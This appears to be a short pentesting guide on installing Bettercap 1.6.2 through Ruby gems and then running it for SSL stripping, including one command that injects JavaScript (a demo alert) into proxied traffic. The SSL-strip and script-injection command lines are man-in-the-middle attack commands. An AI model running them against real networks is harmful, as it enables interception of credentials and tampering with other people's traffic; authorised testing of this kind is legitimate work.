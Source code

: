 title: PenTesting - Installing old Bettercap 1.6.2 on Any Linux Based System
description: PenTesting - Installing old Bettercap 1.6.2 on Any Linux Based System Guide

# Bettercap 1.6.2 on Any Linux Based System Using Ruby Gem

## Installation

Install Ruby Gem

```bash
apt-get install ruby-full
apt-get install libpcap-dev
gem update --system
gem install bettercap
```

find where gems are installed:

Run and look for "- GEM PATHS:"

```bash
gem environment
```

follow the path and append gem. for exmaple:

```bash
/var/lib/gems/2.5.0/gems/bettercap-1.6.2
```

Create a environmental symlink to bettercap to root directory

```bash
ln -s /var/lib/gems/2.5.0/gems/bettercap-1.6.2/bin/bettercap /root/bettercap-1.6.2
```

run from root directory

```bash
./bettercap-1.6.2
```

## SSL Strip Commands

Change the IP according to you usage

### Basic SSL Strip

```bash
bettercap-1.6.2 -X -T 192.168.1.104 --proxy
```

### SSL Strip With XSS

```bash
bettercap-1.6.2 -X -T 192.168.3.104 --proxy --proxy-module injectjs --js-data "<script>alert('SSL STRIP, Script Injection')</script>"
```